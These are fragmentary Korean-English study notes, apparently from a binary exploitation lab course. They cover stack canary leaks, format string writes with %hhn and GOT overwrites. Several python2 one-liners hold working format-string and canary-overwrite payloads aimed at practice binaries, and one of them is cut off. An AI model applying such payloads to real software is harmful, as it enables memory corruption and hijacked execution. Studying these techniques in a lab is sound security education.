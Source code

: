 Formats11

Canary

vulfoo has canary

argc 갯수
argv 어레이로된 parameter

fread

부모 프로세스- 아들 프로세스
Format string

Format 11_32

**카나리 찾는법**
1. Printf 에서 %x.으로 메모리 주소 읽기
	objdump -d - 디스어셈블
	

%eax,-0x2c(%ebp) 
ebp-20

0x8049276

python2 -c "print 'a'*20 + '\x00\x53\x5c\x59' + 'a'*12 + 

카나리를 잘 덮었어야되

SHELL CODE로 리턴하기 >


tmpbuffer
	RET
		%x %x.... %n
			Override = 4 bytes
				1 byte = %hhn Higer 4 bytes are same just lower 4 bytes
			$hhn$nx$hhn
			![[Screenshot 2024-10-31 at 3.37.55 PM.png]]
				python2 -c "print '\x8c\xd6\xff\xff'+'\x8d\xd6\xff\xff' + '%08x.'*8 + '%hhhn%hhn'" | ./formatstring_formats5_3
				8 Bytes+ 9bytes
				=62bytes
		4,4,4,10,58x

1. 하나의 정수는 4바이트
2. 하나의 HEX는 1 바이트
3. python2 -c "print '\x8c\xd6\xff\xff'+'aaaa'+'\x8d\xd6\xff\xff' + '%09x.'*5 + '%248x' +'%hhn%92d%hhn'" | ./formatstring_formats5_32 


formats9
3 global variables


Arbitrary Overwrite
1. Code Pointers (RET Address)
2. Function Pointers
	1. C++ vtable -> Code Pointers
	2. GCC .fini section
	3. GCC .got section Global Offset Table

Lazy Binding
		1. Memory에 적재되면
		2. C library는 그 library를 어드레스에 넣고 테이블에 넣는다 2번째 함수는 그 테이블에서 뽑아서 쓴다
		3. Procedure Linkage Table (코드가 들어 있음) 쓸수 없다
		4. GOT = Table이다 (각 라이브러리의 주소가 있다) 쓸수 있다
	1. 프로그램 시작하면 아무것도 없고
	2. 처음으로 시작하면 그 주소를 찾아서 테이블에 넣는다
	3. GOT Linker+Loader(Runtime):

1. GOT 어떤 Entry가 Exit()인지 찾을것 R=GOT
	1. objdump -R
2. nm 명ㄹ여어
3. 